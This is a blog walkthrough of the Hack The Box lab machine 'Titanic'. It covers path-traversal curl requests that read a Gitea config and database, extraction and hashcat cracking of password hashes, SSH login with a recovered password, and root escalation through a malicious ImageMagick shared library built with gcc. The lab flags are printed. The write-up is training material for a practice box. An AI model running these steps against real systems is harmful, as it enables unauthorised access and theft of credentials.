 ```yaml
---
title: Titanic
date: 2025-06-26 17:26:00 +0100
categories: [ctf, htb]
tags: [web, linux, gitea, docker] 
image: https://res.cloudinary.com/djo6idowf/image/upload/v1750954843/image_ihbgb3.png
---
```

[Titanic](https://app.hackthebox.com/machines/Titanic) is an Easy machine released on 15th February 2025 on Hack The Box.

User Flag: `3ad0f6ac29b0bd200f26357b50c60fd9`

Root Flag: `9fac61210e9fc964e61fd42f547290a9`

## Write-up

Starting off with a classic scan of the target for open ports.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954901/image_o8qba8.png)

Add the host to `/etc/hosts` for ease of access.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954904/image_bs7xzc.png)

From the scan we can see that port 80 is open, which means there is a web server of some sort. So the first thing we need to do is have a look and see what we are dealing with.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954915/image_tbrqp7.png)

It's a cruise booking site. Let's try and book a ticket with Burp up to capture the traffic.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954918/image_y7gqek.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954924/image_zrwo4f.png)

You can see that it looks for a file directly which we can hopefully exploit and ask it to read a file for us.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954927/image_fxbf4z.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954930/image_qlkj8q.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954933/image_cyckma.png)

Notice that this one has a directory and a logon. This is a big clue that says, "look here". Let's send the exploit request to the repeater and have a look.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954937/image_bgz9p1.png)

Okay so we've done everything we can on here - now we need to look for the root flag. We can check `/etc/hosts` as the first host was not obvious, perhaps there is another site we can explore.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954940/image_rki3kz.png)

Great, so we have a dev environment `dev.titanic.htb`. Perfect, let's add it to our hosts and have a look.

`sudo nano /etc/hosts`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954943/image_rs6p0w.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954946/image_rh0aex.png)

When you press the explore button you go straight to the GitHub repository that contains config files. We can then have a look around and see if we can get any useful information.

`http://dev.titanic.htb/explore/repos`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954949/image_tbnncm.png)

And that's a database password - because they haven't used environment variables, so the password is just right there in the repository for us to find. This port was not open on our scan though, so I guess we don't log in that way. It is, however, worth making a note of the credentials anyway.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954951/image_x1czjc.png)

`curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954954/image_kqpv00.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954957/image_ovvqth.png)

We can see from the output that the database has a path. Let's go back to Burp and see if we can read the database file in the path that we found - `/data/gitea/gitea.db` .

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954961/image_inkmts.png)

`curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db`

`" -o gitea.db`

Save the database locally with the above command so that we can use the snoop around in the `.db` file.

`sqlite3 gitea.db`

`sqlite> .tables`

`sqlite> SELECT lower_name, passwd, salt FROM user;`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954964/image_yy56qt.png)

Great, so we have some hashes. Let's get cracking.

`hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954967/image_eirgri.png)

Ok so from the initial attempt we can see that it's a non-standard hash type. After some digging around online, I figured that it's a `gitea`hash. That should have been obvious because that's what the database is called but we live and we learn.

You must run the script below on the hashes file which will convert the hashes to the correct format and then they can be cracked.

`https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271`

`hashcat -S -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt`

I was surprised at how long this took.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954971/image_j0j6ut.png)

However, it turns out the `developer` hash has already been cracked but I had not seen that in the output, but you can use `--show` to display cracked hashes! And then we can go ahead and login to the target with SSH.

`25282528`

`ssh developer@titanic.htb`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954975/image_tybcj1.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954978/image_c1x4xd.png)

Above is an alternative method to get the user flag. Now let's check for write and execute permissions with this user.

`find /opt -writable -type d 2>/dev/null`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954981/image_fcwka5.png)

`find / -type f -perm -u=x 2>/dev/null`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954984/image_gjx3l5.png)

There's a .sh file which is interesting - we may be able to run something here and escalate our privs.

`cd /opt/scripts/`

`cat identify_images.sh`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750954993/image_gotefb.png)

Ok so the script is not that interesting except for the fact that it is pointing out a binary for us `magick`. Let's check the version and see if it's vulnerable to anything.

`/usr/bin/magick --version`

After some browsing it turns out that this version is vulnerable so we can go ahead and give this a go with the exploit below.

`https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8`

Ok so we can write to **`/opt/app/static/assets/images/` so I guess that's where we put the exploit code - we basically trick the software into thinking that our file is a share library, but it has some code that will give us the root flag.

`cd /opt/app/static/assets/images`

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

Put the above script in `/opt/app/static/assets/images/` which is the vulnerable path. I think it's supposed to be an `.so` file. ImageMagick will process the file and then execute the command which will copy `root.txt`to the directory we are in.

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955009/image_v58roy.png)

This should then run and copy over the root.txt file to our directory. Note: this can take up to a minute or so.

`cat root.txt`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955012/image_tcyzg6.png)

![](https://res.cloudinary.com/djo6idowf/image/upload/v1750955016/image_fxugvf.png)

## Thoughts

One of the more interesting boxes in the Easy category. It has a nice mix of attack vectors which is great, but possibly a tad difficult for its rating. I got stuck for quite a while on the hash part because it had been a while since I had needed to convert hashes before cracking them and I was having a lot of issues with the script. Other than that, it was good, and it had a nice linear path which meant that the number of rabbit holes you can go down is limited.

Overall, a solid challenge. I would give it a firm 6/10 - it's ok.